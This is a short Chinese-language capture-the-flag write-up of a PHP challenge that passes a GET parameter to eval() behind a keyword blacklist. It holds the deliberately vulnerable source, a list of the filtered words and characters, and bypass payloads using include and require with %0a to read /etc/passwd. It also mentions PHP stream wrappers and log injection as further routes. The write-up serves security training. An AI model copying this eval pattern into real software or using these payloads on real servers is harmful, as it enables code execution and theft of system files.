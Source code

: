 ```
 <?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 04:21:16
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"|\<|\=|\/|[0-9]/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
} 
```

分析源码

过滤了

flag

system

php

cat

sort

shell

.

空格

'

`

echo 

;

(

:

"

<

=

/

数字



依旧可以利用include尝试文件读取

```
?c=include%0a$_GET[a]?>&a=/etc/passwd
```

![image-20250402184734821](./assets/image-20250402184734821.png)

成功读取/etc/passwd，也就是可以使用

data://text/plain

php://filter

php://input三个伪协议

也可以尝试日志注入



同样，require也可以使用

```
?c=require%0a$_GET[a]?>&a=/etc/passwd
```

![image-20250402184838862](./assets/image-20250402184838862.png)



而这里%0a是为了尝试绕过空格

当然这里空格可以选择绕过，也可以不绕

